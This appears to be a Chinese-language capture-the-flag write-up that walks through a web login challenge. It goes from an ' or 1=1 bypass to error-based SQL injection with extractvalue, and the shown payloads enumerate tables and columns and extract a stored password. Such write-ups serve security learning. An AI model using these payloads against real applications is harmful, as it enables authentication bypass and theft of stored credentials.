 ![](<./img/Pasted image 20221106102433.png>)

![](<./img/Pasted image 20221106102446.png>)
```sql
?username=admin&password=1' or 1=1 or '1
```
![](<./img/Pasted image 20221106102957.png>)

这里引入了一个新的概念：**报错注入**

![](<./img/Pasted image 20221106103349.png>)

```sql
username=admin&password=1'^extractvalue(1,concat(0x5c,(select(database()))))#
```
![](<./img/Pasted image 20221106104824.png>)

爆表
```sql
username=admin&password=1'^extractvalue(1,concat(0x5c,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek')))))#
```
![](<./img/Pasted image 20221106105754.png>)

爆字段
```sql
username=admin&password=1'^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1')))))#
```
![](<./img/Pasted image 20221106110012.png>)

成功近在咫尺
```sql
username=admin&password=1'^extractvalue(1,concat(0x5c,(select(password)from(geek.H4rDsq1))))#
```
![](<./img/Pasted image 20221106110239.png>)

貌似是错误信息限制了长度
```sql
username=admin&password=1'^extractvalue(1,concat(0x5c,(select(right(password,30))from(geek.H4rDsq1))))#
```
![](<./img/Pasted image 20221106110613.png>)

#Web #SQL注入 #报错注入 